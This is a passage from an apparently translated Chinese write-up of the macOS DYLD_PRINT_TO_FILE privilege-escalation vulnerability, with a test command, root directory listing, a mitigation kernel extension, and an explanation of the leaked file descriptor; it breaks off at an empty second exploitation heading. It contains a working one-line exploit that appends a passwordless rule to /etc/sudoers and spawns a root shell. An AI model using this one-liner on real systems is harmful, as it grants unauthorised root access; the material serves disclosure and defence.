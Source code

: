 ```
$ EDITOR=/usr/bin/true DYLD_PRINT_TO_FILE=/this_system_is_vulnerable crontab -e

```

后来你的文件系统的root目录应该展示被创建的文件，其拥有root权限。

```
$ ls -la /
total 317
...
drwxr-xr-x@  2 root  wheel      68 Sep  9  2014 Network
drwxr-xr-x+  4 root  wheel     136 Jul 15 16:03 System
drwxr-xr-x   6 root  admin     204 Jul 17 17:39 Users
drwxrwxrwt@  4 root  admin     136 Jul 21 07:28 Volumes
drwxr-xr-x@ 39 root  wheel    1326 Jul 20 19:26 bin
drwxrwxr-t@  2 root  admin      68 Sep  9  2014 cores
dr-xr-xr-x   3 root  wheel    4156 Jul 20 20:26 dev
lrwxr-xr-x@  1 root  wheel      11 Jul 15 15:55 etc -> private/etc
dr-xr-xr-x   2 root  wheel       1 Jul 21 07:34 home
-rw-r--r--@  1 root  wheel     313 Apr 28 21:11 installer.failurerequests
dr-xr-xr-x   2 root  wheel       1 Jul 21 07:34 net
drwxr-xr-x@  6 root  wheel     204 Jul 15 16:08 private
drwxr-xr-x@ 61 root  wheel    2074 Jul 20 19:26 sbin
-rw-r--r--   1 root  wheel       0 Jul 21 17:22 this_system_is_vulnerable <----
lrwxr-xr-x@  1 root  wheel      11 Jul 15 15:56 tmp -> private/tmp

```

如果你可以看到该文件，那么该程序存在漏洞。

一句话测试：

```
echo python -c '"import os;os.write(3,\"ALL ALL=(ALL) NOPASSWD: ALL\")"'|DYLD_PRINT_TO_FILE=/etc/sudoers newgrp;sudo su

```

0x03 保护
=======

* * *

在进行对该问题的利用前，因为Apple将花费数月来对该问题进行回顾，我们已发布了一个内核扩展，通过阻止所有SUID为root的二进制程序识别的环境变量来进行保护。此外它添加了缓解来解决在文件描述符上绕过的O_APPEND的限制。

你可以在Github中得到源码：https://github.com/sektioneins/SUIDGuard

Exploitation 1
--------------

因为其将已打开的文件描述符泄漏给我们执行的二进制程序的子进程。我们可以使用一些简短的shell命令行再次进行示范。 正如你可以看到的文件描述符3（与被打开的日志文件相关）被泄露进已弹出的shell并且可以直接被写入。不具有特权的用户已经将数据追加到了root用户拥有的文件。在文件系统上这可以是任意文件，这使权限提升变得相当容易。 笔记：在该范例中我们已使用了su（已经输入我们自己的密码），但是我们可以之前使用过的crontab技巧并将用于相同用途的恶意shell脚本放入EDITOR环境变量中。

Exploitation 2
--------------
